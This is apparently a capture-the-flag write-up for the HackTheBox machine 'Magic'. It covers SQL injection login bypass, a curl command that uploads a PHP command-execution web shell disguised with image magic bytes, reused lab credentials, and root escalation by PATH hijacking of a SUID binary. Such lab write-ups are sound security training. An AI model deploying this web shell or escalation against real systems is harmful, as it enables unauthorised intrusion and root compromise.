 # magic : `10.10.10.185`

**Table Of Contents:**

<!-- TOC -->

- [magic : `10.10.10.185`](#magic--101010185)
  - [Synopsis](#synopsis)
  - [Enumeration](#enumeration)
    - [Opened Ports](#opened-ports)
  - [FootHold](#foothold)
  - [Lateral Movement](#lateral-movement)
  - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

## Synopsis

There is a web server running on port 80 and a login page is there. The login page was vulnerable to sql injection and we get in as admin. Now a upload functionality is there from which we upload a reverse shell to gain rce. We extracted credentials from mysql using creds from dp.php5. And we get in with user `theseus` by password reuse. Now for root, the user theseus is in the groups `users` which can run a binary `/bin/sysinfo` which is suid binary. Examining the binary by strace reveals that the binary file is executing some other binaries without giving absolute path. We export the path and forces the binary to run the binary made by us to use it.

## Enumeration

### Opened Ports

- [X] 22 (SSH)
- [X] 80 (HTTP)

---

## FootHold

- Got sql injection on `/login.php`.
- Upload functionality is there. Trying to upload a rev shell. The name of machine magic is a big hint. But failing to do so.
- Upload php shell using below curl command or in short simply modifying name of the shell `rev.php.jpg`

```bash
  curl -i -s -k -X $'POST' \
  -H $'Host: 10.10.10.185' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: multipart/form-data; boundary=---------------------------305495609142528632382316119204' -H $'Content-Length: 523' -H $'Origin: http://10.10.10.185' -H $'DNT: 1' -H $'Connection: close' -H $'Referer: http://10.10.10.185/upload.php' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-GPC: 1'
  -b $'PHPSESSID=nhcuuq19qk2b1m7q3cs0fc98v2' \
  --data-binary $'-----------------------------305495609142528632382316119204\x0d\x0aContent-Disposition: form-data; name=\"image\"; filename=\"rev.php.png\"\x0d\x0aContent-Type: application/x-php\x0d\x0a\x0d\x0a\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x00\x00\x00GIF8;\x0a<?php\x0a\x0aif(isset($_REQUEST[\'cmd\'])){\x0a  echo \"<pre>\";\x0a  $CMD=$_REQUEST[\'cmd\'];\x0a  system($CMD);\x0a  echo \"</pre>\";\x0a}\x0aelse{\x0a  echo \"Debug: True\";\x0a}\x0a\x0a?>\x0a\x0d\x0a-----------------------------305495609142528632382316119204\x0d\x0aContent-Disposition: form-data; name=\"submit\"\x0d\x0a\x0d\x0aUpload Image\x0d\x0a-----------------------------305495609142528632382316119204--\x0d\x0a'
  $'http://10.10.10.185/upload.php'
```

---

## Lateral Movement

- Some creds found in db.php5: `theseus:iamkingtheseus` ❌
- Some more creds in mysql but mysql was not installed so used mysqldump. `theseus:Th3s3usW4sK1ng` 🤞

---

## Privilege Escalation

- Users theseus is in the groups `users` and can run a suid binary `/bin/sysinfo`

> -rwsr-x--- 1 root users            22K Oct 21  2019 /bin/sysinfo (Unknown SUID binary)

- With the help of strace, got to know exec is not using absoulute path for many binaries like lshw, free, cat, fdisk.
- Another hacky way to know the binary which sysinfo is executing is just make your PATH="" and execute it. It will printout the binaries which it tries to execute but didn't able to execute since our path is set to null.

```bash
┌──(ircashem)㉿(192.168.0.102)──[~/HackTheBox/magic/suid]
└─$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/home/ircashem/go/bin:/home/ircashem/.local/bin
┌──(ircashem)㉿(192.168.0.102)──[~/HackTheBox/magic/suid]
└─$ PATH=  
┌──(ircashem)㉿(192.168.0.102)──[~/HackTheBox/magic/suid]
└─$ echo $PATH

┌──(ircashem)㉿(192.168.0.102)──[~/HackTheBox/magic/suid]
└─$ id
zsh: command not found: id
┌──(ircashem)㉿(192.168.0.102)──[~/HackTheBox/magic/suid]
└─$ ./sysinfo                                                                                                                    127 ⨯
====================Hardware Info====================
sh: 1: lshw: not found

====================Disk Info====================
sh: 1: fdisk: not found

====================CPU Info====================
sh: 1: cat: not found

====================MEM Usage=====================
sh: 1: free: not found
┌──(ircashem)㉿(192.168.0.102)──[~/HackTheBox/magic/suid]
└─$ 

```

```c
int main() {
    setuid(0);
    setgid(0);
    cout << "====================Hardware Info====================" << endl;
    cout << exec("lshw -short") << endl;
    cout << "====================Disk Info====================" << endl;
    cout << exec("fdisk -l") << endl;
    cout << "====================CPU Info====================" << endl;
    cout << exec("cat /proc/cpuinfo") << endl;
    cout << "====================MEM Usage=====================" << endl;
    cout << exec("free -h");
    return(0);
}
```

---
